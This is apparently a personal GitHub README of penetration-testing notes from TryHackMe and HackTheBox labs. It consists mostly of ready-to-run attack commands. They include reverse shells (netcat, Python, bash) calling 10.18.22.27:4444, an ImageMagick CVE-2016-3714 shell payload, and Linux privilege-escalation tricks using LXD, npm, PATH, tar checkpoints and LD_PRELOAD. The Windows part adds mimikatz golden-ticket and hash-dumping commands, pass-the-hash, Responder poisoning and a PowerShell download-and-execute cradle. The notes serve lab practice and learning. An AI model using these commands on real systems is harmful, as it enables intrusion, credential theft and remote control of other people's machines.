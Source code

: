 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe and HackTheBxo platforms. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

### [tricks](./other/tricks.md)
### [web](./other/web.md)
---
#### Reverse shells
```nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
```bash
bash -i >& /dev/tcp/10.18.22.27/4444 0>&1
```
<details><summary>CVE-2016–3714</summary>

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```
</details>

---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:
```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```nc
nc -l ATTACKER_PORT > [output_file_path]
```
#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```

---
### Linux Privilege Escalation:
<details><summary> LXD container exploitation </summary> 

```bash
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
</details>
<details><summary> with doas </summary>

```bash
doas -u root openssl enc -in file
doas -u root /bin/bash
```
</details>
<details><summary> with npm -u </summary>

```bash
mkdir ~/tmp
echo '{"scripts": {"preinstall": "/bin/sh"}}' > ~/tmp/package.json
sudo -u serv-manage /usr/bin/npm -C ~/tmp/ --unsafe-perm i
```
</details>

<details><summary>PATH</summary>

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
./app_that_calls_curl
```

</details>

<details><summary>tar</summary>

```bash
cat > /home/andre/backup/rev << EOF
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
EOF
echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"
chmod +x rev
```
</details>

<details><summary>env_keep += LD_PRELOAD</summary>

```
cd /tmp
cat > shell.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
EOF
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```

</details>

#### information gathering
```bash
cat /proc/version
cat /etc/issue
cat /etc/sudoers
ps aux | grep cron
ps
env
ip route
uname -a
netstat # -at -l -t -tp -i
netstat -tupln | grep LISTEN
ss -atur
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -user <user> 2>/dev/null #find files owned by user
find / -type f -perm /4000 2>/dev/null
find / -type f -group <group> -exec ls -l {} + 2>/dev/null
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
nmap --script=vuln <ip>
cat /proc/1/cgroup #if u in docker
```
quik one-line bash script with colorful output to enumerate linux machine
```bash
for cmd in "history" "id" "echo $PATH" "cat /etc/crontab" "sudo -V " "cat /proc/version" "cat /etc/issue" "cat /etc/sudoers" "cat /etc/sudoers.d" "env" "ip route" "uname -a" "netstat -tupln | grep LISTEN" "find / -type f -perm /4000 2>/dev/null" "getcap -r / 2>/dev/null" "cat /etc/exports" "cat /proc/1/cgroup"; do echo  "\n\033[1;34mCommand: $cmd\033[0m"; echo "\033[1;32m$(eval $cmd)\033[0m"; echo  "\033[1;33m\n===================================================================================================\n==================================================================================================="; done
```

#### links
* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
* [GTFOBins (unix)](https://gtfobins.github.io/)
* [g0tmi1k priv esc linux](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [linux backdoors](/other/src/linux_backdoors.md)


---

### Windows

<details><summary> windows system tools </summary>
<details><summary> Local User and Group Management </summary>
It is a shell application to manage Windows system administrator applications.

```bash
lusrmgr.msc
```
</details>
<details> <summary> System Configuration utility </summary>

for diagnose startup issues

```bash
MSConfig
```
</details>
<details> <summary> Task Manager </summary>

to manage (enable/disable) startup items. 
```bash
taskmgr
```
</details>
<details> <summary> User Account Control </summary>
helps prevent unauthorized changes (which may be initiated by applications, users, viruses, or other forms of malware) to an operating system

```bash
UserAccountControlSettings.exe
```
</details>
<details> <summary> Computer Management </summary>
the process of managing, monitoring and optimizing a computer system for performance, availability, security

```bash
compmgmt
```
</details>
<details> <summary> System Information </summary> 
(gathers information about your computer and displays a comprehensive view of your hardware, system components, and software environment, which you can use to diagnose computer issues.)

```bash
msinfo32
```
</details>
<details> <summary> Resource Monitor </summary>
displays per-process and aggregate CPU, memory, disk, and network usage information, in addition to providing details about which processes are using individual file handles and modules

```bash
resmon
```
</details>
<details> <summary> Windows Registry </summary>
central hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices

```bash
regedit
```
</details>
<details><summary>Group policy objects</summary>
a collection of settings that can be applied to OUs
</details>

<details><summary>PowerShell enumeration</summary>

view all of the hidden files in the current directory
```bash
Get-ChildItem -File -Hidden -ErrorAction SilentlyContinue
```
</details>
</details>

<details><summary> SMB enumeration </summary>

enumerate

```bash
enum4linux -h
```
open SMB shares

```bash
smbclient -L $IP
smbclient //$IP/share # -c 'recurse;ls' 
```

enumeration
```bash
smbmap -H $IP
smbmap -H '$IP' -u '' -p '' -R 
smbmap -H '$IP' -u '' -p '' -R -A 'enter.txt' #download file
```

scan with nmap

```bash
nmap -p 139,445 -Pn -script smb-enum* $IP
nmap -p 139,445 -Pn -script smb-vuln* $IP
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

connect with smbclient

```bash
smbclient \\\\$IP\\nt4wrksv
```

</details>

<details><summary>rdp </summary>

```bash
rdesktop -u <username> -p <password> $IP -g 70% -r disk:folder=/home/toor/cd/apps
rdesktop -u Administrator -d CONTROLLER $IP
remmina 
```

</details>

<details><summary>AD</summary>

extract credentials and secrets from a systemdump
```bash
impacket-secretsdump <domain.local>/<user>:<password>@<ip> 
``` 

where we can pht
```bash
crackmapexec smb <ip>/24 -u '<username>' -H <hash> --local-auth                                
```

login with pht
```bash
impacket-psexec <username>@<ip> -hashes <hash>
```

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting
```bash
responder -I eth0 -rdwv
```

DNSRecon - is a powerful DNS enumeration script
```bash
dnsrecon -d <IP> -t axfr
use auxiliary/gather/enum_dns #with metasploit
```

upload file with cmd
```bash
certutil -split -f -urlcache http://<your IP>/file_to_download
powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<your_ip>/<file>")' #execute file without download (!!)
```

evil-winrm - Windows Remote Management (if 5985 or 5986 ports are open)
```bash
evil-winrm -u <username> -p <password> -i <ip>
upload <file on your ps directory> #to upload file
```

kerberoasting
```bash
sudo ntpdate <target ip>
impacket-GetUserSPNs domain.local/Admin:passwd -dc-ip $IP -request
```

runas.exe (to inject the credentials into memory)
```bash
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

mimikatz
```bash
privilege::debug #ensure that the output is "Privilege '20' ok"
lsadump::lsa /patch #dump hashes
lsadump::lsa /inject /name:krbtgt # dumps hash and security id of kerb ticket
kerberos::golden /user: /domain: /sid: /krbtgt: /id: #create a golden ticket!
misc::cmd #open cmd with elevated priveleges to all machines
```

links
* [WADComs (AD)](https://wadcoms.github.io/)

</details>

<details><summary>enumeration</summary>

run powershell with bypass execution policy
```bash
powershell -ep bypass
```

```powershell
whoami /priv #/groups
net user
net users
net localgroups
net user <user>
net group /domain
net user /domain
net user <user> /domain
Get-ADUser(Get-ADGroup) -Identity <user(group)> -Server <domain> -Properties *
Get-ADUser -Filter 'Name -like "*<user>"' -Server <domain> | Format-Table Name,SamAccountName -A
Get-ADUser -Filter 'Name -like "*stevens"' -Server <domain> | Format-Table Name,SamAccountName -A
Get-ADObject -Filter 'badPwdCount -gt 0' -Server za.tryhackme.com
Get-ADDomain
netsh firewall show state
netsh firewall show config
netstat -ano
findstr /si password *.txt # .xml .ini
findstr /spin "password" *.*
dir /s *pass* == *cred* == *vnc* == *config*
```

PowerView.ps1
powershell
Invoke-ShareFinder
Windows 10 Enterprise Evaluation
get-netuser | select cn #enum domain users
Get-NetGroup -GroupName *admin* #enum domain groups
```

meterpreter
```bash
run post/multi/recon/local_exploit_suggester #in session
getsystem
getprivs
load kiwi #download mimikatz
```


- [powerview](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [sushant747 win priv esc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)(with vpn)
- [LOLBAS (windows)](https://lolbas-project.github.io/)
- [JAWS](https://github.com/411Hall/JAWS)
- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)


</details>

---

### links
* [database with CVE exploits](https://cvexploits.io/)
* [explainshell.com](https://explainshell.com/)
* [reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [rapid7](https://www.rapid7.com/)
* [attackerkb](https://attackerkb.com/)
* [cve.mitre.org](https://cve.mitre.org/cve/)
* [exploit-db](https://www.exploit-db.com/)
* [WTFBINS (cve)](https://wtfbins.wtf/)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/)
* [hacktricks](https://book.hacktricks.xyz)
* [bash cheatsheet](https://devhints.io/bash)
* [enumeration guide](https://github.com/beyondtheoryio/Enumeration-Guide)

####  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)
- [free pass hash cracker](https://crackstation.net/)
- [crack station](https://crackstation.net/)
- [md5decrypt.net](https://md5decrypt.net/en/)
- [vigenere brute force](https://www.guballa.de/vigenere-solver)

#### Tools

* [Git research](https://github.com/internetwache/GitTools)
* [php-jpeg-injector](https://github.com/dlegs/php-jpeg-injector)
* [RustScan](https://github.com/RustScan/RustScan/wiki/Installation-Guide)
* [subchase](https://github.com/tokiakasu/subchase)(subdomains)
* [nmmapper.com](https://www.nmmapper.com/sys/tools/subdomainfinder/)(subdomains)
* [SSRFire](https://github.com/ksharinarayanan/SSRFire)
* [reconftw](https://github.com/six2dez/reconftw)
* [google dorks](/other/src/dorks.md)
* [aquatone](https://github.com/michenriksen/aquatone/releases/tag/v1.7.0)(screenshots)
* [httpx](https://github.com/projectdiscovery/httpx)
* [nuclei](https://github.com/projectdiscovery/nuclei)
* [meg](https://github.com/tomnomnom/meg)
* [arjun](https://github.com/s0md3v/Arjun)(http param discovery)

---
Happy hacking!
